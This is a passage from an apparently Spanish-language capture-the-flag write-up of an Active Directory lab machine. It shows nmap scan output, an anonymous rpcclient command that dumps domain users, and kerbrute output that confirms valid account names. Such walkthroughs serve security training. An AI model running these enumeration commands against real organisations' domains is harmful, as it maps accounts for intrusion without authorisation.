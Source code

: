 ```null
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
64664/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -2s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-03-07T08:51:05
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 99.77 seconds
```

Añado el dominio ```megabank.local``` al ```/etc/hosts```

## Puerto 135 (RPC)

Puedo extraer todos los usuarios del directorio activo

```null
rpcclient -U "" 10.10.10.172 -N -c 'enumdomusers' | grep -oP '\[.*?\]' | grep -v "0x" | tr -d "[]" > users
```

Los valido por Kerberos

```null
kerbrute userenum -d megabank.local --dc 10.10.10.172 users

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 03/07/23 - Ronnie Flathers @ropnop

2023/03/07 08:54:54 >  Using KDC(s):
2023/03/07 08:54:54 >  	10.10.10.172:88

2023/03/07 08:54:54 >  [+] VALID USERNAME:	AAD_987d7f2f57d2@megabank.local
2023/03/07 08:54:54 >  [+] VALID USERNAME:	svc-ata@megabank.local
2023/03/07 08:54:54 >  [+] VALID USERNAME:	SABatchJobs@megabank.local
2023/03/07 08:54:54 >  [+] VALID USERNAME:	svc-bexec@megabank.local
2023/03/07 08:54:54 >  [+] VALID USERNAME:	mhope@megabank.local
2023/03/07 08:54:54 >  [+] VALID USERNAME:	dgalanos@megabank.local
2023/03/07 08:54:54 >  [+] VALID USERNAME:	roleary@megabank.local
2023/03/07 08:54:54 >  [+] VALID USERNAME:	smorgan@megabank.local
2023/03/07 08:54:54 >  [+] VALID USERNAME:	svc-netapp@megabank.local
```